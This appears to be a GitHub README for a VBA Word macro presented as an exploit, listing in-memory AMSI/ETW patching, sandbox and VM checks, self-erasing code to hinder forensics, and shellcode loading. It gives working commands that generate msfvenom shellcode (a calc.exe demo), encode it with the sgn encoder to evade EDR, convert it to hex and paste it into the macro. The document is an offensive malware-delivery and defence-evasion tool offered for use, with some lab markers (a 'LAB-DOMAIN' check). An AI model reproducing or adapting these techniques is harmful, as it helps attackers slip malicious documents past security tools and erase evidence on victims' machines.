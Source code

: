 # solid-macro
VB macro for Word exploit

### In-Memory AMSI/ETW Patching
  - Directly modifies critical security functions in RAM.
  - Uses string obfuscation ("AmsiScan" & "Buffer") to bypass static detection.

### Environmental Keying
  - Requires specific domain name (LAB-DOMAIN).
  - Checks for VMware tools process (vmtoolsd.exe).
  - Validates mouse movement and uptime.

### Polymorphic Self-Destruction
  - Overwrites macro code after execution to hinder forensics.

### Indirect Shellcode Loading
  - Uses XOR-free shellcode encoded with Shikata ga-nai.
  - Allocates RX memory only when needed.

## Shellcode Generation & Usage

Generate EDR-Evasive Shellcode:

```
msfvenom -p windows/x64/exec CMD="calc.exe" EXITFUNC=thread -f raw | sgn -a 64 -c 2 -o payload.raw
```

Convert to VBA-Compatible Hex:

```
xxd -p payload.raw | tr -d '\n' > payload.hex
```

Insert into Macro:

```
payload = DeobfuscateHex("fc4883e4...") ' Paste payload.hex contents
```
